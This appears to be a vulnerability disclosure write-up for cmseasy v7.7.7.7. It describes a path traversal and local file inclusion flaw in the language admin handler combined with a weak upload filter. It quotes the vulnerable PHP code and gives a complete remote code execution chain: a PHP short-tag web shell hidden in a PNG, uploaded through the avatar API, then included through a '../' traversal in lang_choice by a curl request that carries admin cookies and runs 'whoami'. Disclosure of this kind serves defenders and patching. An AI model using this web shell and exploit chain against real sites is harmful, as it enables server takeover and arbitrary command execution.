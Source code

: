 ```yaml
---
title: cmseasy v7.7.7.7 (20230520) Path Traversal
date: 2023-06-06 14:26:52
tags:
---
```


## Product

cmseasy v7.7.7.7 20230520

## Official Site

https://www.cmseasy.cn/

## Exploit

In `lib/admin/language_admin.php`, the method `add_action`:

```php
function add_action() {
    $lang_choice='system.php';
    if (isset($_GET['lang_choice'])){
        $lang_choice=$_GET['lang_choice'];
    }
    if (front::post('submit')) {
        $langid=front::get('id');
        $lang=new lang();
        $langdata = $lang->getrows('id='.$langid, 1);
        if (is_array($langdata)){
            $langurlname=$langdata[0]['langurlname'];
        }else{
            front::alert(lang_admin('language_pack').lang_admin('nonentity'));
        }

        $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
        if(file_exists($path)){
            $str= file_get_contents($path);//将整个文件内容读入到一个字符串中
            if(inject_check($str)){
                exit(lang_admin('文件异常'));
            }
        }

        $lang_data = include $path;
        if (is_array($lang_data)){
            $lang_data[front::$post['key']]=front::$post['val'];
            file_put_contents(($path), '<?php return ' . var_export($lang_data, true) . ';');
        }
        
        // ...
    }
    $this->view->lang_choice=$lang_choice;
}
```

The variabel `$path` is controlable by passing query parameter `language_choice` and there is no filter for `../`, which leads to arbitrary local file inclusion.

One can upload a malicious png file via the avatar upload api `uploadimage3`

```plain
http://localhost:5000/index.php?case=tool&act=uploadimage3
```

```php
function uploadimage3_action()
{
    $res = array();
    $uploads = array();
    if (is_array($_FILES)) {
        $upload = new upload();
        $upload->dir = 'images';
        $upload->max_size = config::get('upload_max_filesize') * 1024 * 1024;
        $_file_type = str_replace(',', '|', config::get('upload_filetype'));
        foreach ($_FILES as $name => $file) {
            $res[$name]['size'] = ceil($file['size'] / 1024);
            if ($file['size'] > $upload->max_size) {
                $res[$name]['code'] = "1";
                $res[$name]['msg'] = lang('attachment_exceeding_the_upper_limit') . "(" . ceil($upload->max_size / 1024) . "K)！";
                break;
            }
            if (!front::checkstr(file_get_contents($file['tmp_name']))) {
                $res[$name]['code'] = "2";
                $res[$name]['msg'] = lang('upload_failed_attachment_is_not_verified');
                break;
            }
            if (!$file['name'] || !preg_match('/\.(' . $_file_type . ')$/', $file['name']))
                continue;
            $uploads[$name] = $upload->run($file);
            if (!$uploads[$name]) {
                $res[$name]['code'] = "3";
                $res[$name]['msg'] = lang('attachment_save_failed');
                break;
            }
            $str = (config::get('base_url')==""?"":config::get('base_url')) .$uploads[$name];
            $res[$name]['name'] = $str;
            $res[$name]['type'] = $file['type'];
            $res[$name]['code'] = "0";


            //图片上传  插件
            apps::updateimg($uploads[$name],ROOT.$str);

        }
    }
    echo json::encode($res);
}
```

Although this method uses `front::checkstr` to check malformed contents, there is a missing of php short tags.

```php
static function checkstr($str)
{
    if (preg_match("/<(\/?)(script|i?frame|style|html|\?php|body|title|link|meta)([^>]*?)>/is", $str, $match)) {
        //front::flash(print_r($match,true));
        return false;
    }
    if (preg_match("/(<[^>]*)on[a-zA-Z]+\s*=([^>]*>)/is", $str, $match)) {
        return false;
    }
    return true;
}
```

Hackers can construct a png file with following contents and obtain the storing path after uploading it.

```php
<?= system($_GET['a']); ?>
```

Just invoke the language adding api and include the malicious image to RCE:

```bash
curl 'http://localhost:5000/index.php?case=language&act=add&admin_dir=admin&id=1&lang_choice=../../cn/upload/images/202306/16856887744033.png&a=whoami' \
  -H 'Cookie: PHPSESSID=mdr3p80arphh454bsffqi2o71g; login_username=admin; login_password=oXtK-mknJjNu%253DaxvRZtfrah7PXdq7bkw9XdbwZ0nPXAaJ2ab18391e6e61e99aff8e10d05e4ad02' \
  -d 'submit=1'
```

